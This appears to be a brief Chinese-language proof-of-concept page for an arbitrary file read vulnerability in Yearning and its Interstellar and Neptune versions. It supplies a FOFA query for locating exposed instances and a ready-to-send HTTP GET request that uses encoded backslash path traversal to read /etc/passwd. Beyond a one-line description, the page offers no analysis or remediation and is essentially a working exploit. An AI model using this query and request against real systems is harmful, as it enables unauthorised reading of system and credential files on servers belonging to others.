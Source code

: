 ## Yearning_front任意文件读取

该系统Yearning 2.3.1 版本、Interstellar GA 2.3.2 版本和 Neptune 2.3.4 -2.3.6 版本存在任意文件读取漏洞。攻击者可以利用该漏洞获取敏感信息。

## fofa
```
app="Yearning"
```

## poc
```
GET /front/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```

![9cc6509574f5743d5897ae8fe139684d](../../images/ac553904-42aa-42be-adc3-59eedc62f7f2.png)
